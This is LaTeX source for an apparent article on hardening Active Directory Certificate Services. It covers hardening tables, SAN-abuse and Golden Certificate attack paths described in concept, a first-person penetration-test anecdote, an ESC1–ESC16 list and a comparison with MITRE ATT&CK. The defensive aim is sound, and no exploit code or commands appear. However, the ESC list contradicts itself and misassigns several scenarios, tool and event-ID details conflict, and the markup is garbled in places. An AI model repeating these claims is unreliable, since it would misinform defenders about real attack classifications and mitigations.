\begin{tightitemize}
    \item Reduces attack surface
    \item Hardens post-patch certificate issuance
\end{tightitemize} \\
\hline

\textbf{CA Flags} \\
\begin{tightitemize}
    \item Remove \texttt{EDITF\_ATTRIB\_USE\_SUBJECT\_ALT\_NAME2}
\end{tightitemize} \\
\begin{tightitemize}
    \item Flag enables SAN injection from requests
    \item Often left enabled by default
\end{tightitemize} \\
\begin{tightitemize}
    \item Prevents crafted request abuse
    \item Ensures stronger identity control
\end{tightitemize} \\
\hline

\textbf{Template Permissions} \\
\begin{tightitemize}
    \item Restrict enrollment to known users/groups
    \item Audit template ACLs
\end{tightitemize} \\ 
\begin{tightitemize}
    \item Overly broad permissions common
    \item Risk of privilege escalation
\end{tightitemize} \\
\begin{tightitemize}
    \item Limits lateral movement
    \item Aligns with least privilege
\end{tightitemize} \\
\hline

\textbf{Template Review} & 
\begin{tightitemize}
    \item Review templates with domain-auth EKUs
\end{tightitemize} \\\& 
\begin{tightitemize}
    \item Some templates allow domain auth by default
    \item EKUs may be improperly assigned
\end{tightitemize} \\\& 
\begin{tightitemize}
    \item Prevents unauthorized domain authentication
    \item Strengthens PKI integrity
\end{tightitemize} \\
\hline

\textbf{CA Hierarchy} \\\& 
\begin{tightitemize}
    \item Treat Root/Sub CAs as Tier 0 assets
    \item Restrict logon access
\end{tightitemize} \\\& 
\begin{tightitemize}
    \item CA servers are high-value targets
    \item Often exposed to broader access
\end{tightitemize} \\\& 
\begin{tightitemize}
    \item Protects trust boundary
    \item Reduces risk of full PKI compromise
\end{tightitemize} \\
\hline

%\end{tabular}
\caption{Summary of recommendations with details and their security impacts}
%\end{table}


****************************************************

\begin{table}[htbp]
\centering
\centering
\caption{Certificate Mapping Hardening}
\begin{tabular}{|p{3.5cm}|p{6cm}|p{6cm}|}
\hline
\rowcolor{headerblue}
\multicolumn{3}{|l|}{\textcolor{white}{\textbf{TABLE 1: KB5014754-Strong Certificate Mapping Hardening}}} \\
\hline
\\textbf{Area} \\\& \textbf{Recommendation} \\\& \textbf{Detail / Facts} \\
\hline

\textbf{KB5014754 Update} \\\& 
\begin{compactitem}
    \item Installation of KB5014754 with full enforcement of Strong Certificate Mappings
    \item Audit and reduce \textit{Enroll / Auto-enroll} rights on certificate templates
    \item Ensure only authorized security groups (e.g., Domain Computers, specific service accounts) have access
\end{compactitem} \\\& 
\begin{compactitem}
    \item Released May 2022, enforced November 2022
    \item Ensures strict mapping of SAN/Subject fields to the actual AD account
    \item Prevents ambiguous or weak mappings
\end{compactitem} 
\begin{compactitem}
    \item Blocks abuse of misissued certificates used in AD CS privilege escalation (ESC1/ESC2/ESC3)
\end{compactitem} \\
\hline

\textbf{CA Flag: \texttt{EDITF\_ATTRIBUTESUBJECTNAME2}} \\\& 
\begin{compactitem}
    \item Remove this flag from all CAs where enabled
    \item Shorten certificate lifetimes for user and service templates (e.g., 1 year instead of 5)
    \item Reduce the persistence window if a malicious certificate is issued
    \item Force re-issuance under hardened rules after KB5014754 enforcement
\end{compactitem} \\\& 
\begin{compactitem}
    \item This flag permits requestors to insert arbitrary SANs into certificates. Microsoft recommends removing unless business-critical.
\end{compactitem} 
\begin{compactitem}
    \item Prevents attackers from issuing certificates that impersonate privileged accounts (e.g., Domain Admins)
\end{compactitem} \\
\hline

\textbf{Certificate Templates-Custom SANs} \\\& 
\begin{compactitem}
    \item Disable the use of custom SANs on all templates
    \item Review who can act as an Enrollment Agent and limit this to trusted security groups only
    \item Enforce multi-party approval or additional monitoring for any Enrollment Agent usage
    \item Regularly audit Enrollment Agent templates and revoke unused or unnecessary assignments
\end{compactitem} \\\& 
\begin{compactitem}
    \item Templates allowing user-defined SAN values enable attackers to request certificates with forged UPNs or DNS names.
\end{compactitem} 
\begin{compactitem}
    \item Eliminates common AD CS abuse vectors, for example, ESC1 in Certify / Certipy).
\end{compactitem}
\hline

\textbf{CA Manager Approval} \\\& 
\begin{compactitem}
    \item Enforce "CA Certificate Manager Approval" for any template supporting SANs enrollment to known users/groups
    \item Apply approval requirements only to high-risk templates
    %\item Identify all certificate templates that allow Subject Alternative Names (SANs) and configure them to require explicit CA Manager approval before issuance
    \item Ensures oversight is focused on templates most likely to be abused
\end{compactitem}

    \item Requires manual approval before issuance of certificates with SANs.
    \item Provides oversight and governance.
\begin{compactitem}
    \item Adds visibility and reduces the risk of stealthy certificate-based privilege escalation.
\end{compactitem} \\
\hline

\textbf{Monitoring and Visibility} \\\& 
\begin{compactitem}
    \item Configure advanced audit policies to capture certificate template changes, CA flag modifications, and certificate issuance events
    \item Ensure relevant security Event IDS (4886-4889 for template / CA changes, 4887 for issuance) are logged consistently
    \item Forward CA logs and Security event logs to a SIEM or log aggregator
\end{compactitem} \\\& 
\begin{compactitem}
    \item Use Event ID 4887 (certificate issued)
    \item Use Event IDs 4898 and 4899 (template changes)
    \item Configure SIEM alerts
\end{compactitem} 
\begin{compactitem}
    \item Detects attempts to enable SAN abuse or anomalous certificate enrollment activities.
\end{compactitem} \\
\hline

\textbf{Certificate Revocation and Recovery} \\\& 
\begin{compactitem}
    \item Implement CRL / OCSP Monitoring and Rapid Revocation Procedures
    \item Implement Role-Based Access Control (RBAC) for CA Administrators and define and enforce separate administrative roles (CA Managers, certificate publishers, auditors)
    \item Harden CA server configurations by applying relevant security benchmarks, baselines, STIGs, and SRGs
    \item Run the CA on a dedicated, hardened server that follows Tier 0 isolation principles
    \item Disable unnecessary services, restrict network access, and ensure the CA is patched regularly
    \item Scope certificate templates to specific security groups only instead of default "Authenticated Users"
\end{compactitem} \\\& 
\begin{compactitem}
    \item Ensure Certificate Revocation Lists (CRLs) and Online Certificate Status Protocol (OCSP) responders are operational, accessible, and monitored
    \item Document and test rapid revocation workflows for compromised or misissued certificates
\end{compactitem} 
\begin{compactitem}
    \item Provides the ability to quickly invalidate abused certificates
    \item Limits persistence of attacker-issued credentials
    \item Strengthens overall trust in PKI
\end{compactitem} \\
\hline

\end{tabular}
\caption{Summary of recommendations with details and their security impacts}
\end{table}

\section{Common Abuse Scenarios-Subject Alternative Names (SPNs)}
Active Directory Certificate Services (AD CS) provides organizations with the ability to use certificate-based authentication for both users and machines. This is often leveraged in protocols such as Kerberos (for user / service authentication) and the \textit{Secure Channel}(\texttt{netlogon)} protocol (for machine authentication).

\subsection{AD CS Domain Controller Certificate Verification and Validation Process}
When a certificate is presented to a Domain Controller (DC) during the authentication process, the DC performs several verification and validation checks before finally granting access. These checks include:
\subsubsection{1. Certificate Validity}
The DC ensures that the certificate was issued by a trusted Certificate Authority (CA) within the environment and that it falls within the defined validity period.
\subsubsection{2. Revocation Status}
The DC then confirms that the certificate has not been revoked via the Certificate Revocation List (CRL) or the Online Certificate Status Protocol (OCSP).
\subsubsection{3. Identity Mapping}
The DC attempts to correlate the certificate to an Active Directory account. This mapping process determines "who" the certificate represents within the domain.

\subsection{Certificate Mapping in Active Directory}
The certificate mapping is the mechanism that links a presented certificate to a specific AD account. There are two primary mapping methods that exist:
\subsubsection{1. Implicit Mapping}
\begin{itemize}
    \item The certificate is mapped automatically by AD, using values present in the certificate's Subject Alternative Name (SAN) field (such as a User Principal Name [UPN] or DNS host name).
    \item This is the most common mapping scenario in environments with auto-enrollment templates.
\end{itemize}
\subsubsection{2. Explicit Mapping}
\begin{itemize}
    \item An administrator deliberately associates a certificate with an account by writing its identity into the account's \texttt{altSecurityIdentities} attribute.
    \item This method is more controlled, but requires manual configurations and maintenance.
\end{itemize}

\subsection{The Role of SANs in Abuse}
By default, most certificate templates in AD CS are designed to populate the Subject and SAN fields automatically with values already present in Active Directory (e.g., the user's UPN or the computer's DNS host name). This ensures that a certificate accurately represents the requesting identity, and is not an impersonation, or fraudulent attempt.

However, certain templates can be configured with the option \textit{"Supply in the request."} When enabled, this setting allows the requestor to explicitly specify custom SAN values directly in the certificate signing request (CSR).

This, in turn, introduces a very dangerous attack surface.

First, any user with enrollment rights to a template can craft a CSR that includes arbitrary SAN entries, such as the UPN of a highly privileged account such as Domain Administrators, for example.

Second, if the template supports client authentication and does not require manual CA manager approval, the CA will proceed with issuing the certificate without any further verification or validation checks.

Finally, when presented to the Domain Controller, the certificate will authenticate as the privileged account named in the SAN-not the low-privilege account that requested it.

\section{Abuse Path and Privilege Escalation}
This misconfiguration opens the door to a classic privilege escalation pathway within Active Directory. The sequence begins when a low-privilege domain user identifies a certificate template that has been configured to allow the Subject Alternative Name (SAN) to be supplied in the certificate request. Unlike standard templates that automatically populate the SAN from Active Directory attributes, this setting allows the requestor to specify specific custom values.

Armed with this capability, the attacker generates a Certificate Signing Request (CSR) containing a forged User Principal Name (UPN). Instead of using their own UPN, the attacker substitutes the UPN of a highly privileged account, such as a Domain Administrator. From the perspective of the Certification Authority (CA), there is no distinction between legitimate and fraudulent SAN values if no approval process is enforced. The CA dutifully issues a certificate that includes the maliciously crafted SAN, effectively vouching for the attacker's claim of identity.

Once issued, the attacker presents this forged certificate during authentication. The Domain Controller receives the certificate, verifies that it was signed by a trusted CA and remains within its validity period, and then proceeds to map the identity. Because the certificate contains the UPN of the privileged account, the Domain Controller will interpret the authentication attempt as originating from that high-value identity. In this way, the attacker's low-privilege account is bypassed entirely, and authentication succeeds as though the attacker were the Domain Admin account itself.

The end result is that the attacker has escalated from a standard domain user to possessing full administrative control of the domain. Critically, this attack bypasses password-based controls altogether. Even if the targeted privileged account rotates its password, the rogue certificate remains valid until its expiration data or revocation, allowing persistent unauthorized backdoor access.

When combined with auto-enrollment, where the CA issues certificates automatically without requiring manual approval, the attack becomes nearly trivial to execute because any authenticated user who can essentially request certificates from such a template has a direct path from unprivileged access to complete domain compromise, with minimal effort and a high degree of stealth.
A high-level overview of this attack path is depicted in Figure 1.
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{sanattack.png}
    \caption{\textbf{FIGURE 1.} Attack path example of SAN abuse for privilege escalation}
    \label{fig:placeholder}
\end{figure}

\section{Golden Certificate Attack}
Within Active Directory environments, Certificate Services play a critical role in establishing trust. As part of the standard Public Key Infrastructure (PKI) process, a Certificate Authority (CA) is responsible for issuing certificates to users, computers, and services. When a user or machine submits a Certificate Signing Request (CSR), the CA verifies and validates that the request is valid and then signs the resulting certificate with its own private key. This signed certificate can be used later within Active Directory to authenticate identities, establish secure communications, and prove the legitimacy of the requesting entity. The integrity of this process depends entirely on the secrecy of the CAs private key, because the Domain Controllers rely on the corresponding CA public certificate to validate issued certificates.

By design, the CAs private key is protected to prevent misuse and abuse. Windows leverages the \textit{Data Protection API (DPAPI)} to protect this key. DPAPI uses a symmetric key derived from the CA server's local computer account credentials to encrypt the private key material, making it accessible only within the context of that machine. In practice, however, the private key is marked as exportable, meaning that anyone with sufficient local privileges on the CA server can extract it. Local administrators, for example, can use the \textit{Certificate Services Management Console (MMC)} to export the key directly, or they can turn to post-exploitation tools such as Mimikatz, SharpDPAPI, or \texttt{certutil.exe} to recover it in plaintext form.

Once an attacker compromises the CA server and successfully extracts the CA private key, the security of the entire PKI infrastructure-and, therefore, the Active Directory forest-is fundamentally broken. With the private key in hand, the adversary is no longer restricted to operating within the AD CS infrastructure. They can forge and sign certificates completely offline, issuing themselves certificates for any identity they choose without ever contacting the CA again. These malicious certificates are indistinguishable from legitimate ones because they are signed with the trusted CAs valid key.

The implications of this cyberattack are severe. An attacker can impersonate any account in the domain or forest, including highly privileged identities such as Domain Administrators, Schema Administrators, Backup Operators, Enterprise Admins, or even service accounts tied to critical Tier 0 systems. Unlike password theft, this compromise is extraordinarily durable. Certificates issued with the stolen key remain valid until the CAs own certificate expires or is revoked. Even if defenders rotate passwords, reset Kerberos tickets, or replace account credentials, the attacker's forged certificates will continue to authenticate as legitimate accounts until the root of trust itself is rebuilt from the ground up.

Equally dangerous is the fact that this malicious issuance process can be carried out entirely offline! Because the attacker no longer requires access to the CA server or AD CS infrastructure once the key has been stolen, their activities produce no logs, no enrollment events, and no traceable artifacts within Active Directory. Traditional detection mechanisms, such as monitoring for unusual template enrollment or certificate-issuance events, are completely bypassed. Defenders may not realize the compromise until long after persistence has been established.

This technique, commonly referred to as the \textit{Golden Certificate attack,} is conceptually similar to the \textit{Golden Ticket attack,} where attackers forge Kerberos tickets offline using the \texttt{krbtgt} account key. In both cases, the adversary has compromised the cryptographic root of trust-the key material that allows them to mint arbitrary credentials with complete legitimacy in the eyes of AD and the DCs. The difference is that while Golden Tickets rely on Kerberos trust, Golden Certificates exploit the PKI trust chain, often giving attackers stealthier, longer-lasting, and harder-to-detect access.

In summary, compromise of a CA private key enables adversaries to subvert the entire authentication fabric of Active Directory. With the ability to forge Golden Certificates, attackers gain virtually unlimited persistence, full impersonation capabilities, and the means to bypass even the most rigorous password and ticketing hygiene. The only effective recovery is a complete reestablishment of trust, which typically requires rebuilding the PKI from scratch-a disruptive, resource-intensive, and high-impact process for any defender and enterprise.

\begin{figure}
    \centering
    
    \includegraphics[width=0.75\linewidth]{cabackup.png}
    \caption{\textbf{FIGURE 2.} MMC method to backup a CAs private key and certificate}
    \label{fig:placeholder}

\end{figure}

\section{Template Permissions}
Certificate templates are foundational components within Active Directory Certificate Services (AD CS), defining the rules and attributes that govern how certificates are issued. These templates, like all Active Directory objects, are governed by \textit{security descriptors.}A security descriptor is essentially an Access Control List (ACL) that specifies which security principals-users, groups, or computers-are authorized to interact with the object and what specific operations they are permitted to perform. \textit{Access Control Entries (ACEs),} within the descriptor determine these rights, ranging from the ability to enroll for certificates, to more sensitive permissions such as modifying template properties.

\subsection{Template Permissions in Practice}
In secure deployments, certificate template permissions are carefully locked down so that only administrators or tightly scoped groups have the ability to manage them. This prevents abuse of the certificate issuance process; however, in real-world environments, I have repeatedly encountered situations where certificate templates were configured with overly permissive Access Control Entries (ACEs).

During one CCRI (Cyber Command Readiness Inspection), my role was to assume the identity of a regular, non-privileged domain user. The objective was simple: determine how far I could push access inside the network perimeter starting from the same position an average employee might hold. The initial focus was on external-facing DoD systems-WiFi, perimeter firewalls, and edge routers-but once I pivoted internally, I began enumerating Active Directory Certificate Services (AD CS) with my trusty little "hacking" journal in hand.

\begin{figure}
    \centering
    \includegraphics[width=1\linewidth,height=0.7\textheight,keepaspectratio]{me1.png}
    \caption{FIGURE Me and my trusty little hacking journal}
    \label{fig:placeholder}
\end{figure}

To my surprise, within just a couple of hours, I identified a certificate template that I, as a low-privileged user, had the ability to modify. The sensitive properties exposed in this template included enrollment rights, issuance requirements, and, critically, flags that controlled how certificate subjects and SANs were defined. Being able to change these properties gave me a direct pathway to increasing my privileges. In other words, what should have been a tightly controlled security object was left wide open, and that misconfiguration provided me with an \textit{open door into the organization's crown jewels.} I was queen of the castle (well, a portion of it, to say the least).

Now, it is important to state the need for understanding the mindset of an attacker-an attacker who lives and breathes security exploitation. 24x7x365. Skilled adversaries (and defenders as well) study their target(s) environment obsessively. If they do not already know how to abuse a setting, they will exhaustively research it, digging into every available detail until they uncover the exact weakness they can exploit. This means that what defenders might view as a minor oversight-whether the result of a deliberate convenience choice or an accidental misconfiguration-such as an unnecessary permission or a poorly scoped ACL, can quickly become a fully weaponized attack vector in the hands of a motivated adversary.

This is precisely why permissions hygiene is so critical in any environment. Permissions act as gatekeepers of security; they are the unseen locks and barriers that literally prevent unauthorized users from slipping inside. Yet, all too often, permissions are treated as something that one may "set and forget." At the time an administrator creates them, it might feel like locking them down too tightly is inconvenient, unnecessary, or even counterproductive to productivity. But that momentary convenience evaporates instantly when a breach occurs. Once sensitive data are exposed or an attacker is able to move freely through systems because of loose or mismanaged permissions, suddenly the value of strict access control becomes painfully obvious. It is that feeling of having shot yourself in the foot. What once felt restrictive now seems like the most convenient and necessary safeguard imaginable.

An illustrative example highlights how dangerous these misconfigurations can be. Suppose a non-privileged user has the rights to enable the flag \texttt{\detokenize{CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT_ALT_NAME}} on a certificate template. This single change grants the ability for requestors to insert custom Subject Alternative Names (SANs) into their certificate requests. From there, it is trivial for the attacker to submit a request containing the User Principal Name (UPN) of a domain administrator or other high value account. If the template also permits client authentication, the CA will happily issue a certificate mapped to that privileged identity. When presented to a Domain Controller, the forged certificate is accepted as legitimate, allowing the attacker to impersonate a domain administrator without ever knowing their password.

The consequences are profound: what began as an engagement with the rights of a standard user ended in a full domain compromise simply because of overly permissive template ACLs. This scenario really underscores the broader lesson here: that misconfigured permissions, regardless of where they may exist, can quickly transform strong defenses into trivial barriers for attackers to pummel through.

\subsection{How the Vulnerable Certificate Template Was Found}
As a non-privileged user on a penetration test, I was not expecting to stumble across flashy exploits right out of the gate-which almost never happens. Real penetration testing is about patience and persistence, not Hollywood-style instant wins. Effective threat hunting requires patience, methodical probing and prodding, and careful navigation through the domain carefully, methodically, and always with an eye toward avoiding detection. In any serious security engagement, you don't expect to find the big prize immediately. The real vulnerabilities, the ones that matter, take time, patience, and deliberate exploitation to uncover.

I started enumerating what was already available to me. Since certificate template permissions are often overlooked or lax, I began by enumerating certificate templates in the domain to see if I could come up with any accessible ones I could request.

The two primary tools for this type of enumeration that I used were Certutil (native to Windows) and, what I call, "C-Deuce," which is Certify (C\#) and Certipy.  Certify and Certipy are powerful tools that are used to penetrate Active Directory Certificate Services (AD CS) .

\subsubsection{Certify (C\#)}
Certify is a C# tool primarily used in Windows systems to attack and enumerate Active Directory Certificate Services (AD CS) environments. I features identification of PKI enrollment services, potential attack pathways, request of certificates, and performing enumeration operations. Certipy, on the other hand, is a Python-based toolkit that is also used to enumerate and abuse AD CS misconfigurations, including all known ESC1-ESC16 attack pathways.

\subsection{Did You Know?}
\textbf{The ESC1-ESC16 Abuse Paths in Active Directory Certificate Services (AD CS)}
Active Directory admins may feel they understand the privileged accounts that exist in their environment(s) and have adequately protected them; however, in many environments, Active Directory Certificate Services (AD CS) misconfigurations effectively give any user access to Domain Admins, regardless of what their account privilege is. This can undermine efforts to secure accounts and leave organizations vulnerable to widespread compromise as attackers escalate privileges and pivot across domains.

These misconfigurations are easy to make due to the complex nature of AD CS configuration-I regularly find at least one AD CS issue in customer engagements. In recent years, attackers have become more aware of these issues, making it more critical for administrators and defenders to understand \textit{all} the privilege escalation pathways in their domains and how to detect their active exploitation, to improve the security stances of Active Directory.

When security researchers talk about "ESC" paths in AD CS, they refer to a taxonomy of \textit{Exploitation Scenarios (ESC).} The exploitation of AD CS misconfigurations became a key concern when, in 2021, researchers at SpectreOps called attention to the problem in a whitepaper by Will Schroeder and Lee Christensen of SpectreOps titled, \textit{"Certified Pre-Owned."}  Because AD CS is used for authentication, these attacks pose a significant threat that carries severe consequences for organizations-including the potential for full domain compromise-making them a prime target for threat actors. To give defenders and security teams a better understanding of attackers and their TTPs, the ESC1-ESC16 were born. Each ESC scenario represents a distinct way in which adversaries can abuse misconfigurations or weak controls in AD CS to escalate privileges, persist, or impersonate accounts.

Think of ESC pathways as a catalog \textit{ of known attack techniques} against the Public Key Infrastructure (PKI) of the enterprise. If an attacker has a toehold in your environment, these are the likely avenues that they will test for privilege escalation or persistence. If you defend AD CS, these are the misconfigurations that you need to know, monitor, and eliminate.

The core driving force behind the creation of the ESC1-ESC16 classification system and the accompanying research (the "Certified Pre-Owned" whitepaper) was the increasing recognition and need to address the widespread and critical security vulnerabilities within AD CS. This research comprehensively details various techniques for attacking AD CS to achieve persistence, credential theft, and privilege escalation.

\subsection{Key Features of ESC Pathways}
1. Widespread Misconfigurations and Lack of Awareness:
Researchers and security practitioners observed that AD CS was frequently misconfigured, leading to easy pathways for privilege escalation within Active Directory environments. Many organizations were unaware of these vulnerabilities or lacked the expertise to properly secure their AD CS deployments.

2. Significant Impact of Exploitation:
Exploiting these misconfigurations can grant attackers highly privileged access, often leading to full domain compromise, including Domain Admin privileges. This presented a serious threat to organizational security.

3. Need for a Structured Approach:
Previously, knowledge about AD CS attacks was more fragmented. The SpectreOps team aimed to provide a comprehensive and systematic way to classify and explain these attack techniques. The "ESC" (Escalation) numbering system provides that structure.

4. Empowering Defenders and Red Teams:
By clearly describing the different misconfigurations, exploitation methods, and detection/mitigation strategies, the researchers sought to empower both defenders (blue teams) to identify and remediate vulnerabilities, and red teams / penetration testers to effectively assess the AD CS security posture.

5. Facilitating Tool Development:
The structured approach also paved the way for the creation of tools like Certify and Certipy, which automate the process of finding and, in some cases, exploiting these AD CS vulnerabilities, simplifying the assessment and remediation process.

\subsection{The Reason Behind the Creation of the ESC Attack Classifications}
The growing recognition of Active Directory (AD CS) vulnerabilities did not happen overnight. For years, penetration testers and red teamers had identified isolated weaknesses in certificate services, such as misconfigured templates or overly broad enrollment rights; however, there had never been a comprehensive body of research that tied all these attack paths together in a way that defenders could clearly understand. SpectreOps sought to change that. Their work consolidated scattered findings and expanded on them, demonstrating that AD CS misconfigurations represented a massive and often overlooked blind spot in enterprise security.

To bring order and clarity to these vulnerabilities, the researchers introduced a systematic classification model known as the ESC (Escalation) taxonomy. Each "ESC" number, from ESC1 to ESC16, represents a unique abuse scenario tied to AD CS infrastructure. This numbering system not only provides a common language for security professionals to discuss these attacks, but also highlighted the breadth of possible misconfigurations, ranging from template permissions to certificate authority flags and web enrollment services.

The impact of their research was striking. In almost every enterprise network SpectreOps analyzed, AD CS misconfigurations enabled privilege escalation. The findings showed that attackers starting with only low-level domain user rights could often leverage these flaws to gain control over entire Active Directory forests. What made this more alarming was the relative ease of exploitation-many techniques required no special privileges and left little trace within standard monitoring solutions.

To support both offensive and defensive teams, tool development went hand in hand with research. SpectreOps released \textbf{Certify}, a PowerShell-based toolkit designed to audit and exploit AD CS environments, making it easier to test for misconfigurations. Building on this, security researcher Oliver Lyak released \textbf{Certipy,} a Python-based port of Certify, which extended the functionality to non-Windows environments and became a staple in red team toolkits. Both tools, widely available on GitHub, have been instrumental in demonstrating real-world abuse cases and in helping defenders better identify weaknesses before adversaries do.

Together, this body of work-comprehensive research, the ESC taxonomy, and the release of practical tooling-transformed how the security community views Active Directory Certificate Services. What was once a niche area of PKI administration is now recognized as one of the most critical and exploitable attack surfaces in Active Directory.

\subsection{Precise Breakdown of the ESC1-ESC16 Taxonomy}
The ESC taxonomy is important because it gives both \textit{attackers} and \textit{defenders} a shared language to understand the risk of AD CS. From a red team perspective, ESC1-ESC8 are the \textbf{ most frequently} exploited in real-world engagements (misconfigured templates and NTLM relay). From a blue team perspective, knowing the taxonomy helps build detection and hardening strategies.
\begin{itemize}
    \item Audit for templates that allow SAN supply (ESC1).
    \item Lock down template permissions (ESC2, ESC5).
    \item Monitor CA flags such as \texttt{EDITF\_ATTRIBUTESUBJECTALTNAME2} (ESC7).
    \item Harden web enrollment endpoints to prevent NTLM relay (ESC8).
\end{itemize}

Ultimately, AD CS sits at the Tier 0 trust boundary of Active Directory. Any one of these misconfigurations can turn into a domain compromise if left unchecked.

Below is a precise breakdown of the 16 major ESC paths (simplified but detailed enough for readers to grasp):

\subsubsection{ESC1-Widespread Misconfigurations and Lack of Awareness (SAN Supply)}
Researchers and security practitioners observed that AD CS was frequently misconfigured, leading to easy pathways for privilege escalation within Active Directory environments. Many organizations were unaware of these vulnerabilities or lacked the expertise to properly secure their AD CS deployments.

\subsubsection{ESC2-Misconfigured Certificate Templates (Weak Permissions)}
\begin{itemize}
    \item Template ACLs grant low-privileged users the ability to modify settings.
    \item Attackers enable dangerous flags like SAN supply or client authentication.
\end{itemize}

\subsubsection{ESC3-Misconfigured Certificate Templates (Dangerous EKUs)}
\begin{itemize}
    \item Templates include Application Policies / Enhanced Key Usages (EKUs) such as \textit{Certificate Request Agent} or \textit{Any Purpose.}
    \item Attackers can use these certificates for unintended authentication scenarios.
\end{itemize}
% If you intended to center something here, use the center environment:


\subsubsection{ESC4-Certificate Enrollment Agent Abuse}
\begin{itemiz3
021e}
    \item Enrollment Agent templates allow a user to request certificates on behalf of other accounts.
    \item If the permissions are weak, an attacker can impersonate privileged users.
\end{itemize}

\subsubsection{ESC5-Misconfigured Certificate Templates (Enrollment Rights)}
\begin{itemize}
    \item Templates grant enrollment to overly broad groups such as Enterprise Admins, Schema Admins, or Domain Admins.
    \item Any user can register for certificates with sensitive EKUs or SANs.
\end{itemize}

\subsubsection{ESC6-Vulnerable Certificate Authority ACLs}
\begin{itemize}
    \item The ACLs of the CA object in AD are misconfigured.
    \item Attackers can directly modify CA settings, issue certificates, or grant themselves rights.
\end{itemize}

\subsubsection{ESC7-Misconfigured Certificate Authority \texttt{EDITF\_ATTRIBUTESUBJECTALTNAME2} Flag}
\begin{itemize}
    \item CA-level flag allows for arbitrary SANs in any certificate request.
    \item Attackers can impersonate privileged users even without template misconfigs.
\end{itemize}

\subsubsection{ESC8-NTLM Relay to AD CS (HTTP Enrollment Services)}
\begin{itemize}
    \item If Certificate Enrollment Web Services don't require signing or encryption, attackers can relay NTLM authentication to obtain a certificate as a victim user.
\end{itemize}

\subsubsection{ESC9-Cross-Forest Trust Abuse (Weak Mapping)}
\begin{itemize}
    \item Trusts between forests are based on weak identity mappings.
    \item Attackers forge certificates in one forest to gain access in another.
\end{itemize}

\subsubsection{ESC10-Enterprise Admin-to-CA Misconfiguration}
\begin{itemize}
    \item Enterprise Admins configure or delegate CA incorrectly.
    \item Attackers exploit permissions to issue backdoor certificates.
\end{itemize}

\subsubsection{ESC11-Weak PKI Infrastructure (Subordinate CA Abuse)}
\begin{itemize}
    \item Attackers compromise or leverage a misconfigured subordinate CA.
    \item This allows them to issue trusted certificates up the chain.
\end{itemize}

\subsubsection{ESC12-Offline Root CA Compromise}
\begin{itemize}
    \item The root CA key is compromised or not sufficiently protected.
    \item Attackers can issue trusted certificates for the entire enterprise.
\end{itemize}

\subsubsection{ESC13-Misconfigured Certificate Enrollment Web Services (CES / CEP)}
\begin{itemize}
    \item Weak authentication or permissions on enrollment services.
    \item Attackers abuse web-based enrollment to impersonate accounts.
\end{itemize}

\subsubsection{ESC14-Cross-Forest Misconfigurations (Enrollment Rights)}
\begin{itemize}
    \item Misconfigured enrollment rights extend across forest trusts.
    \item Attackers request certificates from foreign forests to escalate.
\end{itemize}

\subsubsection{ESC15-Certificate Services DACL Abuse (AD Objects)}
\begin{itemize}
    \item Attackers manipulate AD objects tied to certificate issuance, such as \texttt{NTAuthCertificates} or Public Key Services containers.
\end{itemize}

\subsubsection{ESC16-Abuse of Certificate Authority Configuration}
\begin{itemize}
    \item Direct manipulation of CA registry or configuration files.
    \item Attackers can alter issuance policies, EKUs, or enforcement settings.
\end{itemize}

\section{AD CS ESC1-ESC16 vs. MITRE ATT\&CK Framework}
\begin{itemize}
    \item \textbf{Origin:} Created by SpectreOps during their landmark investigation of Active Directory Certificate Services (AD CS).
    \item \textbf{Scope:} Focuses \textit{exclusively} on misconfigurations and abuse paths in AD CS (enterprise PKI inside Active Directory).
    \item \textbf{Format:} A taxonomy of 16 specific scenarios (ESC1 through ESC16) that describe concrete misconfigurations, such as: \begin{itemize}
        \item ESC1: Templates that allow custom Subject Alternative Names (SANs).
        \item ESC7: Dangerous CA Flag \texttt{EDITF\_ATTRIBUTESUBJECTALTNAME2} enabled.
        \item ESC8: NTLM communication with web enrollment services.
    \end{itemize}
\item \textbf{Use Case:} Primarily for Active Directory / PKI defenders and red teamers. It is a \textit{niche, deep-dive framework} to understand how AD CS can be abused for privilege escalation and persistence.
\item \textbf{Output:} Gives you a checklist of AD CS-specific risks to audit and harden.
\end{itemize}

\subsection{MITRE ATT\&CK}
\begin{itemize}
    \item \textbf{Origin:} Developed and maintained by MITRE, a nonprofit that supports the US government.
    \item \textbf{Scope:} A global knowledge base of adversarial tactics, techniques, and procedures (TTPs) in \textit{ all domains -} Windows, Linux, Cloud, ICS, Mobile, and more.
    \item \textbf{Format:} Organized by \textit{Tactics} (the "why," like Persistence or Privilege Escalation) and \textit{Techniques/Subtechniques} (the "how," such as Pass-the-Ticket (PtT), Kerberoasting or Credential Dumping).
    \item \textbf{Use Case:} Used for threat modeling, detection engineering, red and blue team exercises, and incident response. Provides a standardized language to describe adversary behaviors at a high level.
    \item \textbf{Output:} Helps organizations align defenses and detections to known adversary behaviors throughout the kill chain.
\end{itemize}

\begin{table}[htbp]
\renewcommand{\arraystretch}{1.5}
\setlength{\tabcolsep}{8pt}
\rowcolors{3}{rowgray}{white}
\begin{tabular}{|p{3.5cm}|p{4.5cm}|p{5cm}|p{4cm}|}
\hline
\rowcolor{headerblue}
\multicolumn{4}{|l|}{\textcolor{white}{\textbf{TABLE 2: Key Differences- ESC vs. ATT\&CK}}} \\
\hline
\textbf{Aspect} \\\& \textbf{ESC1-ESC16} \\\& \textbf{MITRE ATT\&CK} \\
\hline

\textbf{Focus} \\\& 
\begin{compactitem}
    \item Narrow: AD CS misconfigurations and abuse
\end{compactitem} \\\& 
\begin{compactitem}
    \item Broad: Adversary behaviors across all domains
\end{compactitem} \\
\hline

\textbf{Granularity} \\\& 
\begin{compactitem}
    \item Very specific (certificate templates, CA flags, AD CS abuse)
\end{compactitem} \\\& 
\begin{compactitem}
    \item More granular (techniques applicable across many technologies)
\end{compactitem} \\
\hline

\textbf{Purpose} \\\& 
\begin{compactitem}
    \item Educate defenders about PKI / AD CS risks
    \item Guide red team exploitation
\end{compactitem} \\\& 
\begin{compactitem}
    \item Provide universal framework for adversary behavior, detection, and defense
\end{compactitem} \\
\hline

\textbf{Creators} \\\& 
\begin{compactitem}
    \item SpectreOps (red team research organization)
\end{compactitem} \\\& 
\begin{compactitem}
    \item MITRE (U.S. government-backed research organization)
\end{compactitem} \\
\hline

\textbf{Use Case} \\\& 
\begin{compactitem}
    \item Checklist for AD CS hardening, pentests, audits
\end{compactitem} \\\& 
\begin{compactitem}
    \item Threat modeling, ATT\&CK mapping, SOC / DFIR detection engineering
\end{compactitem} \\
\hline
\end{tabular}
\caption{Summary of key differences between the ESC taxonomy and the MITRE ATT\&CK framework}
\end{table}

